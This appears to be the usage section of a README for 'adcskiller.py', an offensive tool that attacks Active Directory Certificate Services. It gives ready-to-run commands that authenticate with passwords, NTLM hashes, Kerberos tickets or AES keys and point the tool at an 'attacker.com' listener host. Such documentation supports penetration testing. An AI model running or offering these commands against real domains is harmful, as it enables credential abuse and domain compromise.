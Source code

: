 ### Requirements

```bash
pip install ldap3 python-ldap
```

## Usage

### Basic Syntax

```bash
python3 adcskiller.py -d DOMAIN -u USERNAME [AUTH_METHOD] -dc-ip TARGET -L LHOST [OPTIONS]
```

### Authentication Methods

The tool supports multiple authentication methods (choose one):

```bash
# Password authentication
python3 adcskiller.py -d domain.com -u username -p password -dc-ip 10.0.0.1 -L attacker.com

# NTLM hash authentication
python3 adcskiller.py -d domain.com -u username -H LM:NT -dc-ip 10.0.0.1 -L attacker.com

# Kerberos ticket authentication
python3 adcskiller.py -d domain.com -u username -K /path/to/ticket.ccache -dc-ip 10.0.0.1 -L attacker.com

# AES key authentication
python3 adcskiller.py -d domain.com -u username -A aes256_key -dc-ip 10.0.0.1 -L attacker.com
```

### LDAPS Examples

```bash
# Basic LDAPS connection
python3 adcskiller.py -d domain.com -u username -p password -dc-ip 10.0.0.1 -L attacker.com --ldaps

# LDAPS with channel binding (enhanced security)
python3 adcskiller.py -d domain.com -u username -H :ntlmhash -dc-ip 10.0.0.1 -L attacker.com --ldaps --ldap-channel-binding

# Custom LDAPS port
python3 adcskiller.py -d domain.com -u username -p password -dc-ip 10.0.0.1 -L attacker.com --ldaps --ldap-port 3269
```

### Advanced Options

```bash
# Verbose logging with custom output directory
python3 adcskiller.py -d domain.com -u username -p password -dc-ip 10.0.0.1 -L attacker.com --verbose -o /tmp/adcs_output

# Force Kerberos authentication with DNS TCP
python3 adcskiller.py -d domain.com -u username -p password -dc-ip 10.0.0.1 -L attacker.com --use-kerberos --dns-tcp

# Custom timeout settings
python3 adcskiller.py -d domain.com -u username -p password -dc-ip 10.0.0.1 -L attacker.com --timeout 120
```
